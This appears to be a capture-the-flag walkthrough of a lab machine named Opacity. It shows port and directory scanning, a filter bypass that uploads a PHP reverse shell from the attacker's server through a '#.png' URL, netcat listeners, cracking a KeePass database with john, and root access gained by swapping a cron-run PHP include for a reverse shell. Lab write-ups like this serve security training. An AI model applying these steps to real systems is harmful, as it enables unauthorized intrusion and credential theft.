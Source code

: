 #Title: Opacity
#Difficulty: Easy

```shell
THM="10.10.114.146"
```

```bash
nmap -sC -sV $THM
```

```shell
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-11-13T05:47:03
|_  start_date: N/A
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


```

There are 4 ports open running Samba http and ssh. Lets start with http.

Lets check with nikto and dirseach.

```bash
dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://$THM
```

```shell
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kriyos/.dirsearch/reports/10.10.114.146/_23-11-13_00-46-43.txt

Error Log: /home/kriyos/.dirsearch/logs/errors-23-11-13_00-46-43.log

Target: http://10.10.114.146/

[00:46:44] Starting: 
[00:46:46] 200 -  848B  - /login.php
[00:46:47] 302 -    0B  - /index.php  ->  login.php
[00:46:53] 301 -  312B  - /css  ->  http://10.10.114.146/css/
[00:47:06] 302 -    0B  - /logout.php  ->  login.php
[00:47:58] 301 -  314B  - /cloud  ->  http://10.10.114.146/cloud/
[00:47:58] 200 -  639B  - /cloud/
```

If we check the website there is a login page. The other directory */cloud/* includes a file upload. We can use this to upload and get reverse shell but it only accepts images. I used pentest monkey php reverse shell and created a python server to upload.

```bash
python3 -m http.server 
```

For uploading there is a filter and to bypass we can comment out the rest but filter does not check for that so it will work for server-side. Do not forget to listen with netcat.

```bash
nc -nvlp 22
```

```shell
http://10.6.87.204:8000/php-reverse-shell.php#.png
```

BOOOM!!! We get the shell now. Next part is to gather information about the server.
We can use linpeas to test this. I am also going to use python server to send the file. I saw there is a important file in */opt/*. I checked and it is a dataset. I get the dataset with python server and used john to crack it.

```bash
keepass2john dataset.kdbx > crack
john --wordlist=/usr/share/wordlists/rockyou.txt crack
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*741852963*        (dataset)     
1g 0:00:00:03 DONE (2023-11-13 01:23) 0.3154g/s 287.6p/s 287.6c/s 287.6C/s chichi..micheal
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

After getting the key we can now open and find out the passwords. I used keepassxc to open it to install use:

```bash
sudo snap install keepassxc
```

After opening we can get the password for *sysadmin*. Now we can login as sysadmin. We get the user flag after logging in.

```bash
sysadmin@opacity:~$ cat local.txt
<Redacted>
```

There is a folder called scripts. Lets check the folder and scripts.

```bash
sysadmin@opacity:~$ cd scripts
sysadmin@opacity:~/scripts$ ls
lib  script.php
sysadmin@opacity:~/scripts$ cat script.php
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>

sysadmin@opacity:~/scripts$ cd lib/
sysadmin@opacity:~/scripts/lib$ ls
application.php  backup.inc.php  bio2rdfapi.php  biopax2bio2rdf.php  dataresource.php  dataset.php  fileapi.php  owlapi.php  phplib.php  rdfapi.php  registry.php  utils.php  xmlapi.php
sysadmin@opacity:~/scripts/lib$ cat backup.inc.php 
<?php


ini_set('max_execution_time', 600);
ini_set('memory_limit', '1024M');


function zipData($source, $destination) {
  if (extension_loaded('zip')) {
    if (file_exists($source)) {
      $zip = new ZipArchive();
      if ($zip->open($destination, ZIPARCHIVE::CREATE)) {
        $source = realpath($source);
        if (is_dir($source)) {
          $files = new RecursiveIteratorIterator(new RecursiveDirectoryIterator($source, RecursiveDirectoryIterator::SKIP_DOTS), RecursiveIteratorIterator::SELF_FIRST);
          foreach ($files as $file) {
            $file = realpath($file);
            if (is_dir($file)) {
              $zip->addEmptyDir(str_replace($source . '/', '', $file . '/'));
            } else if (is_file($file)) {
              $zip->addFromString(str_replace($source . '/', '', $file), file_get_contents($file));
            }
          }
        } else if (is_file($source)) {
          $zip->addFromString(basename($source), file_get_contents($source));
        }
      }
      return $zip->close();
    }
  }
  return false;
}
?>

```

After reviewing the code we can edit the script and put php reverse shell in it and get root shell. But first Do not forget to listen.

```bash
nc -nvlp 22
```

```bash
mv bakcup.inc.php /tmp/
cd /tmp/
mkdir new
cd new
nano backup.inc.php #Paste Pentestmoneky reverse shell script here
mv backup.inc.php /home/sysadmin/scripts/lib/
```

BOOOOOMMMM!!! We are now root.

```bash
root@opacity:/# ls
ls
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  swap.img  sys  tmp  usr  var
root@opacity:/# cd root/
cd root/
root@opacity:~# ls
ls
proof.txt  snap
root@opacity:~# cat proof.txt
cat proof.txt
<Redacted>
```
